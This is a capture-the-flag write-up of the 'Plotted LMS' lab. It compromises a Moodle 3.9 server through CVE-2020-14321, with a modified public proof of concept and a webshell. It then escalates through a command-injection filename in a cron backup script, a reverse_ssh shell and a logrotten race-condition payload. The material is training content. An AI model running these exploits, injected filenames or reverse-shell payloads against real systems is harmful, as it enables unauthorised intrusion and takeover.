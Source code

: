 # Plotted LMS

A fairly hard room, largely due to the breadth of the enumeration and its numerous rabbit holes, plus some instability mixed with dickery in the foothold path.

1. A rust scan reveals four websites, 80, 873, 8820 and 9020. All show a default apache page
2. Using ffuf with directory wordlist medium on each, it reveals three sites: :873/rail, :8820/learn and :9020/moodle. The first two look to be custom built, but the last is a regular moodle instance.
3. Running moodlescan against the moodle url, reveals it is version 3.9 beta. This version is vulnerable to CVE-2020-14321, a authenticated remote code execution vulnerability.
4. The vuln requires the creds or cookie of a 'teacher'. Fortunately the site allows registeration, so I register a `test123:Test-123` user. Furthermore, there is a course 'teachers only' that allows self-enrollment, making the new user a teacher.

> The next bit was tricky. It took me four instances of the target VM and a lot of dickery to get the exploit working. Part of it was the author's countermeasures: any request without a referer header would respond with a rickroll message, breaking the script. But aside from that, the exploit itself seemed dependent on a very specific state - any messing about with moodle as I did trying to debug or enumerate would break the script flow, very annoying. In the end, the exact steps described following worked somewhat consistently.

5. On exploit-db, there is a reference impl for this vuln: https://www.exploit-db.com/exploits/50180. Instead of using that directly, I used the original repo referenced: https://github.com/HoangKien1020/CVE-2020-14321
6. Before running, this needs to be modified:
    - on line 9, this line: `headers={"Content-Type":"application/x-www-form-urlencoded"}` should be expanded to include a referer value, e.g. `headers={"Content-Type":"application/x-www-form-urlencoded","Referer": "http://10.10.94.67:9020/moodle/"}`
    - there are two uses of `session.get` in the script that dont specify headers, e.g. line 27~: `r=session.get(login_url,proxies=proxies)`. This should be changed to add the headers variable, e.g. `r=session.get(login_url,proxies=proxies,eaders=headers)`.
7. Running the script like so will hopefully result in output like the following:

    ```bash
    root@ip-10-10-242-204:~# python3 ./cve202014321.py -url http://10.10.94.67:9020/moodle -u test123 -p Test-123 -cmd=ls
                             ***CVE 2020 14321***
        How to use this PoC script
        Case 1. If you have vaid credentials:
        python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
        Case 2. If you have valid cookie:
        python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

    [+] Your target: http://10.10.94.67:9020/moodle
    [+] Logging in to teacher
    [+] Teacher logins successfully!
    [+] Privilege Escalation To Manager in the course Done!
    [+] Maybe RCE via install plugins!
    [+] Checking RCE ...
    [+] RCE link in here:
    http://10.10.94.67:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=ls
    block_rce.php

    ```
    
8. with the new webshell we can get a strong reverse shell. I used `https://github.com/NHAS/reverse_ssh` to get a full shell as www-data.
9. To pivot to the `plot_admin` user, there is a cronjob that runs every minute, executing a script called backup.py in the plot_admin user's home directory. The contents of this script are:

    ```python
    import os

    moodle_location = "/var/www/uploadedfiles/filedir/"
    backup_location = "/home/plot_admin/.moodle_backup/"

    os.system("/usr/bin/rm -rf " + backup_location + "*")

    for (root,dirs,files) in os.walk(moodle_location):
            for file in files:
                    os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
    ```
    
10. To exploit this, as we have write into `/var/www/uploadedfiles/filedir/`, we can create a file in there like `$(chmod 777 backup.py)`. This can be done with `touch \$\(chmod\ 777\ backup.py)` in that folder. Within a minute, the backup file will be writable by our user.
11. Next, adding `os.system("/var/www/9020/moodle/blocks/rce/lang/en/client")` into backup.py (after removing the chmod file above, as it breaks the script) will get a reverse shell as plot_admin. Note this is using the reverse_ssh client I downloaded with the webshell.

> The following root privesc seemed *real* flaky, and I tried over multiple restarts to get it to work, only persisting once I checked and my approach *is* intended. So, just be aware that this might require a few goes. Best bet I've found is to get in there quick - I've had it work semi-seamlessly if I'm running logrotate 10 minutes after machine boot.

13. Careful enumeration or using pspy will reveal logrotate is being used with a custom config file at `/etc/logbackup.cfg`. The contents of this are:

    ```
    /home/plot_admin/.logs_backup/moodle_access {
        hourly
        missingok
        rotate 50
        create
    }
    ```
    
14. This suggests a [logrotten](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition) vulnerability, since we control that directory as plot_admin. Basically we can swap out the file being created/updated due to a race condition, plonk a payload into bash completion, and when the root user logs in they will trigger the payload and grant us a shell. Enumeration shows we don't have to wait - the root user is executing what they find in bash completion on a schedule.
15. To abuse this, I used https://github.com/whotwagner/logrotten. My payload file triggered a reverse_ssh client. In order to trigger the log rotate, you need to modify the moodle_access backup file - this can all be done in a few lines like so (run from plotadmin's home folder, where client and logrotten (compiled) have been placed:

    ```
    echo 'if [ `id -u` -eq 0 ]; then (/home/plot_admin/client &); fi' > payloadfile
    cp .logs_backup/02.06.2022 .logs_backup/moodle_access; ./logrotten -p payloadfile -d /home/plot_admin/.logs_backup/moodle_access
    ```
17. And after a few minutes (or rather, five or so restarts and many hours of waiting) boom root!
